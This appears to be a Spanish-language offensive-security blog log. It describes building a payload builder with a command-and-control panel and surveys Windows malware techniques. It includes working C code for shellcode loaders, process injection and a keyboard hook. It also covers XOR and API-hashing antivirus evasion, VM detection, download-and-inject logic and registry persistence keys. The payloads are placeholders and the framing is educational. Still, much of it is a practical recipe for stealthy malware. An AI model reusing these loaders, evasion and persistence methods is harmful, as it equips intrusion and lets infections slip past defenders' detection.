"Lo que creo que voy a necesitar es una flag para indicar el tipo de configuracion y evaluar si amerita decodificado, descompresion o desencriptado xd"El problema de las "flags"
La necesidad de una flag para evaluar el pipeline de procesamiento demuestra una comprensión temprana de los protocolos de comunicación maliciosa avanzados. No es suficiente enviar datos; el binario y el servidor deben negociar si el tráfico está codificado, comprimido o cifrado, tal como se ve en la UI final con las opciones de Encode/Compress/Encrypt. Esta negociación es lo que permite que el C2 sea flexible y resistente a cambios en las defensas del target.
La trampa del "todo en strings"
En septiembre de 2024, reflexioné sobre la arquitectura del builder. La primera iteración almacenaba todo el código fuente del payload como strings literales en los recursos, con las herramientas de compilación incrustadas. Este enfoque, aunque funcional, era frágil: cualquier cambio en la lógica del payload requería modificar cadenas largas y propensas a errores de sintaxis. La lección fue que el builder debía ser más modular, con plantillas parametrizables en lugar de código fuente hardcodeado.
// Log: 16/9/24 11:15 p. m.
"Es que pensé que era como un builder, la última vez que intenté hacer un builder opte por dejar todo el código en string y las herramientas de compilación en el resources"17. Galería de la UI: Anatomía de BugBuilder
Las siguientes imágenes documentan el estado final de la PoC. Representan la materialización de los conceptos discutidos en la bitácora: un generador de payloads con su propio panel de comando y control.
Interfaz de Construcción (Builder)

Panel de Control Vacío (Infected)

Conexión Exitosa (C2 Activo)

18. Conclusión: Del Byte al Framework
La progresión de winshellcode- a BugBuilder representa un arco de aprendizaje fundamental en el desarrollo de software de seguridad ofensiva. Se pasó de entender la microarquitectura de una pila de llamadas a abstraer esa lógica en una fábrica de binarios.
Tabla comparativa de la evolución
| Característica | winshellcode- (Fase 1) | Stub Cripto (Fase 2) | BugBuilder (Fase 3) |
|---|---|---|---|
| Lenguaje | C + Assembly (NASM) | Assembly (NASM) | C# (.NET Framework) |
| Payload | Shellcode fija (calc.exe) | Shellcode variable descifrada | Payload configurable con persistencia |
| Ofuscación | Opcodes en bruto | XOR multibloque con llaves | Compresión, Cifrado (AES/RSA), Iconos camuflaje |
| Comunicación | Ninguna (Ejecuta y termina) | Ninguna | C2 TCP bidireccional con JSON |
| Resolución API | Manual (GetProcAddress + parcheo little-endian) | Syscalls directas (int 0x80) | Automática (.NET P/Invoke o Referencias) |
| Generación de binario | Compilación externa (GCC) | Ensamblador externo (NASM) | Compilación interna (CodeDOM / Roslyn) |
El primer proyecto nos enseñó el valor de la precisión manual: saber exactamente qué bytes ocupa una instrucción y cómo la pila afecta al flujo. El segundo proyecto añadió la capa de protección de la carga útil, entendiendo que la shellcode en reposo es la parte más vulnerable del ciclo de vida de un payload. Finalmente, BugBuilder operacionalizó ese conocimiento, convirtiendo un arte técnico en una herramienta modular lista para entornos hostiles, donde la capacidad de regenerar binarios con firmas diferentes es la diferencia entre el éxito y la detección.
19. Classic Code Injection into the Process
Consiste en introducir código malicioso en un proceso legítimo en ejecución, lo que permite al atacante secuestrar el proceso y utilizarlo para sus propios fines. En términos generales, la técnica consiste en:
- Identificar el proceso de destino: Puede ser cualquier programa común (notepad.exe) o algún proceso más crítico en el sistema.
- Inyectar el código: El código malicioso es inyectado en el espacio de memoria del proceso de destino. Para lograr esto existen diversos métodos: escribir directamente en la memoria del proceso o cargar una DLL maliciosa.
- Ejecución del código inyectado: Podemos crear un nuevo hilo dentro del proceso que comience a ejecutar el código, o manipular la memoria del proceso para sobreescribir las instrucciones con un salto al código inyectado.
Mecanismos defensivos y sus evasiones:
- DEP (Data Execution Prevention): Evita que se ejecute código desde ubicaciones de memoria no confiables.
- ASLR (Address Space Layout Randomization): Aleatoriza el diseño de la memoria de un proceso, dificultando predecir dónde se cargará el código.
- CFG (Control Flow Guard): Rastrea el flujo de datos a través de un programa para detectar intentos de inyección.
Para explicar esta técnica, analizamos el concepto general: "encontrar un espacio de la memoria de un proceso (en este caso, el mismo proceso) y escribir sobre él".
// Classic code injection - Proceso propio
unsigned char my_payload[] = "";
unsigned int my_payload_len = sizeof(my_payload);
int main(void) {
void* my_payload_mem;
BOOL rv;
HANDLE th;
DWORD oldprotect = 0;
my_payload_mem = VirtualAlloc(0, my_payload_len,
MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);
rv = VirtualProtect(my_payload_mem, my_payload_len,
PAGE_EXECUTE_READ, &oldprotect);
if(rv != 0) {
th = CreateThread(0, 0,
(LPTHREAD_START_ROUTINE)my_payload_mem, 0, 0, 0);
WaitForSingleObject(th, -1);
}
return 0;
}Ahora pivotamos a un proceso distinto (ej. calc.exe) usando OpenProcess, VirtualAllocEx, WriteProcessMemory y CreateRemoteThread. La memoria se asigna directamente en el espacio de direcciones del proceso objetivo con permisos de ejecución.
20. Classic DLL Injection into the Process
Consiste en cargar una DLL maliciosa en un proceso legítimo. El flujo es: localizar la DLL, crear un hilo en el proceso destino, asignar memoria para almacenar la ruta de la DLL, cargar la DLL mediante LoadLibraryA, y ejecutar su punto de entrada (DllMain).
// dllmain.cpp - DLL maliciosa de ejemplo
#include "pch.h"
BOOL APIENTRY DllMain(HMODULE hModule,
DWORD nReason, LPVOID lpReserved) {
switch (nReason) {
case DLL_PROCESS_ATTACH:
MessageBox(NULL,
(LPCWSTR)L"Meow from DLL!",
(LPCWSTR)L"=^..^=", MB_OK);
break;
}
return TRUE;
}NOTA: DLL Hijacking en Windows 10
En teoría, para realizar DLL hijacking solo debemos aprovechar la jerarquía de búsqueda de las DLL. Sin embargo, las pruebas en Windows 10 moderno no funcionan debido a protecciones como Known DLLs y mitigaciones de búsqueda de DLL.
21. Find Process ID by Name and Inject to It
Lógica necesaria para encontrar procesos por nombre e inyectarlos usando CreateToolhelp32Snapshot y Process32First/Next.
int findMyProc(const char* procname) {
HANDLE hSnapshot;
PROCESSENTRY32 pe;
int pid = 0;
BOOL hResult;
hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (INVALID_HANDLE_VALUE == hSnapshot) return 0;
pe.dwSize = sizeof(PROCESSENTRY32);
hResult = Process32First(hSnapshot, &pe);
while(hResult) {
if (strcmp(procname,
(const char*)pe.szExeFile) == 0) {
pid = pe.th32ProcessID;
break;
}
hResult = Process32Next(hSnapshot, &pe);
}
CloseHandle(hSnapshot);
return pid;
}22. Windows Shellcoding 1
Patrón fundamental de ejecución de shellcode mediante punteros a función. Este es exactamente el mecanismo que usamos en el dropper original:
char code[] = "my shellcode here";
int main(int argc, char **argv) {
int (*func)();
func = (int(*)()) code;
(int)(*func)();
return 1;
}Se incluye un script auxiliar en Python para revertir strings y convertirlos a hexadecimal en formato little-endian, necesario para construir la shellcode.
import sys
input = sys.argv[1]
chunks = [input[i:i+4] for i in range(0, len(input), 4)]
for chunk in chunks[::-1]:
print(chunk[::-1].encode("utf-8").hex())23. Windows Shellcoding 2 — PEB y TEB
Cada vez que ejecutamos cualquier archivo .exe, lo primero que se crea en el sistema operativo son las estructuras PEB (Process Environment Block) y TEB (Thread Environment Block). El PEB contiene información necesaria para el funcionamiento del proceso, mientras que cada hilo tiene su propio TEB.
Cuando escribimos en ASM, podemos recorrer la estructura PEB → LDR y encontrar la dirección de kernel32.dll para cargarla en nuestro shellcode sin usar GetModuleHandle:
; Encontrar kernel32.dll via PEB
mov eax, [fs:ecx + 0x30] ; Desplazamiento a PEB
mov eax, [eax + 0xc] ; Desplazamiento a LDR
mov eax, [eax + 0x14] ; InMemoryOrderModuleList
mov eax, [eax] ; 1er módulo (nuestro .exe)
mov eax, [eax] ; 2do módulo (ntdll.dll)
mov eax, [eax + 0x10] ; 3er módulo (kernel32.dll)24. Windows Shellcoding 3 — PE File Structure
Un archivo PE es el formato nativo de Win32, análogo a los COFF de Unix. Su estructura incluye:
- DOS Header: Almacena información necesaria para cargar el archivo PE.
- DOS Stub: Área mayormente llena de ceros después de los primeros 64 bytes.
- PE Header (NT Header): Contiene la firma "PE\0\0" (bytes 50 45 00 00).
- File Header (COFF Header): Características básicas del archivo.
- Optional Header: Contiene AddressOfEntryPoint, ImageBase, SectionAlignment, SizeOfImage y los directorios de datos (tabla de exportación, importación, recursos, excepciones, certificados, reubicación, TLS, IAT, CLR runtime header, etc.).
- Section Table: Arreglo de estructuras IMAGE_SECTION_HEADER que define secciones como .text.
25. APC Injection Technique (Early Bird)
La técnica Early Bird aprovecha QueueUserAPC para poner en cola un APC (Asynchronous Procedure Call) en un hilo específico. La descripción de alto nivel es:
- Crear un proceso legítimo con el flag CREATE_SUSPENDED.
- Asignar memoria para la carga útil en el espacio del nuevo proceso.
- Declarar la rutina APC que apunta al código shellcode.
- Reanudar el hilo principal para que ejecute el APC antes de comenzar su ejecución normal.
APC Injection via NtTestAlert
NtTestAlert es una syscall no documentada que comprueba si hay APC pendientes en el hilo actual y los ejecuta. Antes de que cualquier hilo comience a ejecutarse, su dirección de inicio Win32 llama a NtTestAlert para ejecutar cualquier APC pendiente. Podemos aprovechar esto para desencadenar la ejecución de nuestra carga útil sin necesidad de un hilo remoto en otro proceso.
APC Injection via Alertable Threads
Esta variante encuentra todos los subprocesos del proceso destino y pone en cola un APC a todos ellos, maximizando la probabilidad de ejecución.
26. Code Injection via Thread Hijacking
El secuestro de un proceso se logra suspendiendo un proceso existente y luego desasignando o vaciando su memoria, que luego se puede reemplazar con código malicioso. Los pasos clave son:
- Crear un identificador para un proceso víctima existente.
- Suspender el proceso con SuspendThread.
- Obtener el contexto del hilo con GetThreadContext (incluye el registro de instrucciones RIP).
- Modificar ct.Rip = (DWORD_PTR)rb para que apunte a nuestra shellcode.
- Establecer el contexto modificado con SetThreadContext.
- Reanudar el hilo con ResumeThread.
27. Classic DLL Injection via SetWindowsHookEx
SetWindowsHookEx permite instalar hooks de sistema global. Al configurar un hook de teclado global (WH_KEYBOARD) y especificar una función callback que reside en nuestra DLL maliciosa, obligamos al sistema a cargar la DLL en el espacio de direcciones de los procesos que reciben mensajes de teclado. Los sistemas modernos bloquean esta técnica usando CFG (Control Flow Guard) y CIG (Code Integrity Guard).
// DLL exportada
extern "C" __declspec(dllexport) int Meow() {
MessageBox(NULL,
(LPCWSTR)L"Meow meow",
(LPCWSTR)L"=^..^=", MB_OK);
return 0;
}
// Configuración del hook global
HHOOK hook = SetWindowsHookEx(WH_KEYBOARD,
(HOOKPROC)meowFunc, meowDll, 0);28. Code Injection via Windows Fibers
Windows Fibers es una API que permite crear hilos de ejecución ligeros. Son más eficientes que los hilos del sistema pero menos seguros al no estar protegidos con las características de los hilos del sistema. La técnica consiste en:
- Convertir el hilo actual en un Fiber con ConvertThreadToFiber(NULL).
- Asignar memoria para el código malicioso con VirtualAlloc.
- Crear una nueva Fiber con CreateFiber apuntando al código.
- Cambiar el contexto de ejecución con SwitchToFiber.
29. Windows API Hooking
El API hooking es una técnica mediante la cual interceptamos y modificamos el comportamiento de las llamadas a la API. Consiste en reemplazar los primeros 5 bytes de la función original con una instrucción JMP relativo (\xE9) que redirige a nuestra función personalizada. Debemos almacenar los bytes originales para poder restaurar la función cuando sea necesario.
Un segundo método utiliza push + ret (\x68 + dirección + \xC3) para redirigir la ejecución a nuestra función, en lugar del salto relativo.
30. DLL Injection via Undocumented NtCreateThreadEx
Esta técnica utiliza la función no documentada NtCreateThreadEx de ntdll.dll, que permite indicar el tamaño de la pila y otras flags de creación dándole más flexibilidad que CreateRemoteThread. Al no estar documentada y no exportarse de la biblioteca de importación de kernel32.dll, es más sigilosa que las técnicas tradicionales.
31. Code Injection via Memory Sections (NtCreateSection)
Una sección es un bloque de memoria que se comparte entre procesos, creado mediante la API NtCreateSection. La técnica implica:
- Crear una sección de memoria compartida con NtCreateSection.
- Mapear la sección en el proceso local con NtMapViewOfSection.
- Mapear la misma sección en el proceso objetivo (solo lectura).
- Copiar el payload en la sección local (se refleja en la remota).
- Crear un hilo remoto con RtlCreateUserThread.
- Desmapear con ZwUnmapViewOfSection.
32. Code Injection via ZwQueueApcThread
Similar a la técnica APC estándar pero usando ZwQueueApcThread en lugar de QueueUserAPC. Combina la creación de secciones de memoria compartida con ZwCreateSection y el encolado de APC usando la función nativa de ntdll.dll. Se utiliza ZwSetInformationThread con THREADINFOCLASS 1 para forzar que el hilo se vuelva alertable.
33. Process Injection via KernelCallbackTable
KernelCallbackTable es una tabla de punteros a funciones que se utiliza para registrar controladores de eventos del kernel. Al inyectar código en esta tabla, un atacante puede reemplazar un controlador de eventos existente por uno propio. Cuando se produce el evento, se llamará al controlador malicioso, permitiendo ejecutar código arbitrario en el contexto del proceso objetivo.
34. Process Injection via RWX Memory Hunting
Esta técnica busca regiones de memoria con permisos RWX (Read-Write-Execute) en el espacio de memoria del proceso objetivo usando VirtualQueryEx. Una vez encontrada una región RWX, escribe directamente la shellcode allí y crea un hilo remoto. Esto evita la necesidad de llamar a VirtualAllocEx, reduciendo la huella de llamadas sospechosas.
35. Process Injection via FindWindow
Utiliza FindWindow para localizar el identificador de ventana (HWND) del proceso objetivo. Luego de obtener el HWND, se usa GetWindowThreadProcessId para obtener el PID y proceder con la inyección estándar.
VM Evasion via FindWindow
Variante de evasión de máquinas virtuales que busca ventanas específicas de VirtualBox (VBoxTrayToolWndClass, VBoxTrayToolWnd) para detectar si se está ejecutando en un entorno virtualizado y condicionar la ejecución del payload.
36. Download and Inject Logic
Técnica para descargar carga útil o DLL maliciosa desde una URL usando HTTP (WinInet). El beneficio es que se puede usar detrás de redes que filtran todo tráfico excepto HTTP, e incluso puede funcionar a través de un proxy preconfigurado.
El flujo es: abrir sesión HTTP con InternetOpen, descargar el archivo con InternetOpenUrl e InternetReadFile, guardarlo localmente con CreateFile/WriteFile, y luego inyectarlo usando la técnica clásica de DLL injection.
37. Run Shellcode via EnumDesktopsA / EnumChildWindows
Estas técnicas aprovechan funciones de enumeración de la API de Windows que aceptan un callback como parámetro. Al pasar la dirección de nuestra shellcode como función de callback, el sistema la ejecutará en el contexto del proceso actual:
- EnumDesktopsA: Enumera escritorios. El callback se pasa como DESKTOPENUMPROC.
- EnumChildWindows: Enumera ventanas secundarias. El callback se pasa como WNDENUMPROC.
38. AV Engines Evasion: XOR Encryption
La técnica de evasión usando XOR para cifrar/descifrar aplica una operación XOR byte a byte entre la shellcode y una clave secreta. El proceso es:
- Cifrado: Se toma la shellcode (arreglo de opcodes), se selecciona una clave aleatoria, y se aplica XOR bit a bit a cada byte.
- Descifrado en tiempo de ejecución: Se aplica la misma clave XOR al arreglo cifrado antes de copiarlo a memoria ejecutable.
void XOR(char* data, size_t data_len,
char* key, size_t key_len) {
int j = 0;
for (int i = 0; i < data_len; i++) {
if (j == key_len - 1) j = 0;
data[i] = data[i] ^ key[j];
j++;
}
}Se incluye un script en Python para automatizar el proceso: cifrar la shellcode, reemplazar el placeholder en la plantilla C++, y compilar con MinGW.
39. Hiding Function Calls with XOR Encryption
Esta técnica aplica XOR al nombre de funciones API como VirtualAlloc para que no aparezcan como strings legibles en el binario. En tiempo de ejecución, se descifra el nombre, se obtiene la dirección con GetProcAddress, y se asigna a un puntero de función para su uso.
40. API Hashing for AV Evasion
El hashing de funciones API implica convertir el nombre de la función en un valor hash único y usar ese hash en lugar del nombre real. El procedimiento es:
- Cargar la DLL con LoadLibrary.
- Recorrer la tabla de exportación de la DLL.
- Calcular el hash de cada nombre de función exportada.
- Comparar con el hash pre-calculado de la función deseada.
- Si coincide, obtener la dirección de la función y usarla.
Esto evita que strings como "VirtualAlloc" o "CreateThread" aparezcan en el binario, eludiendo firmas estáticas.
41. Persistence Techniques
Registry Run Keys
Modificar las claves de ejecución del registro para que el código malicioso se ejecute automáticamente al iniciar el sistema o al iniciar sesión el usuario:
- HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Screensaver Hijack
Reemplazar el salvapantallas legítimo por uno malicioso modificando las claves de registro:
- HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive
- ScreenSaveTimeout
- SCRNSAVE.EXE
COM DLL Hijack
Sustituir una DLL legítima de un objeto COM por una maliciosa. La clave de registro para un objeto COM específico se encuentra en:
- Software\Classes\CLSID\{...}\InprocServer32
Windows Services
Los servicios de Windows se ejecutan en segundo plano sin interfaz gráfica. La persistencia se logra creando un nuevo servicio con inicio automático o modificando un servicio existente para que apunte a un binario malicioso.
AppInit_DLLs
La clave AppInit_DLLs permite especificar una lista de DLLs que se cargarán automáticamente en el espacio de direcciones de casi todas las aplicaciones cuando se inician. Requiere altos privilegios.
Netsh Helper DLL
Netsh puede cargar DLLs auxiliares. Al registrar una DLL maliciosa como helper de Netsh, esta se cargará cada vez que se ejecute la herramienta. La DLL debe exportar la función InitHelperDll.
Winlogon
Modificar las claves de Winlogon para ejecutar código malicioso al iniciar sesión:
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
- ...\Winlogon\Userinit
Port Monitors
Los monitores de puerto del servicio de cola de impresión (spoolsv.exe) pueden ser reemplazados por una DLL maliciosa que se cargará en el contexto de este servicio del sistema. La clave de registro es:
- \System\CurrentControlSet\Control\Print\Monitors\[nombre]
/¿Querés ver estas técnicas aplicadas en un caso real?
Las técnicas de inyección, API Hashing y persistencia documentadas aquí son las mismas que enfrenté al analizar el dropper multi-etapa con analystty y al deconstruir campañas reales de NetSupport RAT y Lumma Stealer.
analystty: Triage Automatizado → Threat Hunter Recollection → Infraestructura de Laboratorio →Continuidad. Y la otra cara: como se pierde la firma sin cambiar la logica.